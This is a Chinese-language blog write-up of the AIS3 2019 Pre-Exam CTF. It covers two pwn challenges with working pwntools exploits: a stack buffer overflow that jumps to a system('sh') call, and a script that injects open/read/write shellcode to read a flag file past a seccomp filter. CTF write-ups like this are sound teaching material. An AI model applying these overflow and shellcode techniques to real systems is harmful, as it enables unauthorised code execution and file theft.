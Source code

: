 ```yaml
---
title: AIS3 2019 Pre-Exam Writeups
date: 2019-06-21 14:43:49
tags:
	- ctf
---
```


終於放暑假了，這學期真D忙爆
到現在才有空寫writeup
是說今年暑假行程也滿檔… 駕訓班, 研習營, AIS3…樣樣來
真…真爽



上次AIS3時才剛學資安不到半年，分數慘不忍睹菜到只剩備取尾巴
一年後的今天一口氣爬上了8X名，真的非常感謝學長這一年中的教導，雖然還是菜到廢 (我有個學弟好強R QQ)
希望明年能擠進50，希望有天也能變大佬 (X

---

# Pwn

## Welcome BOF

注意！！！這是 x64 系統
逆向看到輸入的變數會放在 `rbp - 30h` 的位置
然後會發現有個沒用到的 function call 了 `system("sh")` 在 `0x40068B`
由於是 x64 系統每個 stack 格子就變成 8 byte 了

```bash
(python -c "from pwn import *; print 'a'*0x38 + p64(0x400687);";cat -) | nc pre-exam-pwn.ais3.org 10000
```

## ORW

第一次看到這種題目，稍微花了時間去研究 seccomp
總之就是一種黑名單白名單的東西
而這題限制了只能用 open, read, write 的 syscall

由於沒開 PIE，所以 addr 並不會變動輸入的東西都放在 `0x6010A0`
先把 shellcode 寫進去
然後最後直接 bof 到剛剛寫 shellcode 的位置

```python=
from pwn import *

context(arch='amd64', os='linux')

shellcode = ''
shellcode += shellcraft.pushstr('/home/orw/flag')
shellcode += shellcraft.open('rsp', 0, 0)
shellcode += shellcraft.read('rax', 'rsp', 100)
shellcode += shellcraft.write(1, 'rsp', 100)

r = remote('pre-exam-pwn.ais3.org', 10001)

r.sendline(asm(shellcode))

r.recvuntil('I give you bof, you know what to do :)')

# r.sendline(0x24*'a' + '\x98\x08\x40\x00\x00\x00\x00\x00')
r.sendline(0x20*'a' + '\xa0\x10\x60\x00\x00\x00\x00\x00')

```